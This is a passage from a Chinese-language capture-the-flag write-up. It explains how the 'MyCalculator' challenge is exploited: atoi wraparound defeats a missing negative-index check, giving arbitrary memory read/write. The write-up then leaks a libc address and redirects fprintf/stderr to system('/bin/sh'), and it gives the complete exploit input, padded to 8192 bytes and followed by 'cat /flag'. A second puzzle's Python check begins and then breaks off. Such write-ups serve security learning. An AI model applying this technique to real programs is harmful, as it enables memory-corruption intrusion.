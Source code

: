 
## It's MyCalculator!!!!!

关键就在 `GET` 和 `PUT` 里：

```c
    | GET NUMBER {
        if ($2 >= MAX_RESULT_BUFFER) {
            yyerror("index out of range");
        } else {
            $$ = result_buffer[$2];
        }
    }
    | PUT NUMBER exp {
        if ($2 >= MAX_RESULT_BUFFER) {
            yyerror("index out of range");
        } else {
            result_buffer[$2] = $3;
            $$ = $3;
        }
    }
```

甚至做了边界检查，乍一看好像没啥问题，但它没检查负数。所以试图 `GET 负数`，欸还是不行，因为 `NUMBER` 的语法定义是一个正整数。怎么办呢？研究发现 `NUMBER` 用的是 `atoi`，直接构造 `2**32 - xx` 就可以弄出负数了。

既然内存任意读写已经出来了，那么就泄露 libc 地址、get shell 一把梭了。具体一点，我覆写了 `fprintf` 和 `stderr` 的地址，因为计算器在语法错误会调用 `fprintf(stderr, "xxxx")`，所以修改后可以变成 `system("/bin/sh")`。

但问题在于，题目不能进行交互，只能给出一个 input 然后给出一个 output 然后就关闭连接了。也就是说，我们 get shell 之后还要让终端执行 `cat /flag` 的命令。尝试之后发现简单地在输入后面跟上 `cat /flag` 是不行的，因为 flex 有一个 8192 的缓冲区。所以我们把给计算器的输入 pad 到 8192 然后再加上命令即可。

```
GET 4294967264
GET 4294967265
PUT 4294967288 ((GET 0) + 1412113)
PUT 4294967289 (GET 1)
PUT 4294967252 ((GET 0) + 61312)
PUT 4294967253 (GET 1)
d
aaaa...(省略)
cat /flag
```

---

## 小 Z 的谜题

代码很晦涩，看起来十分抽象，但看到这里：

```python
for i in range(num_constraints):
    for j in range(num_constraints):
        if i == j:
            continue
        assert any((arrange[i][k][1] <= arrange[j][k][0] or arrange[j][k][1] <= arrange[i][k][0]) for k in range(num_dims))
```
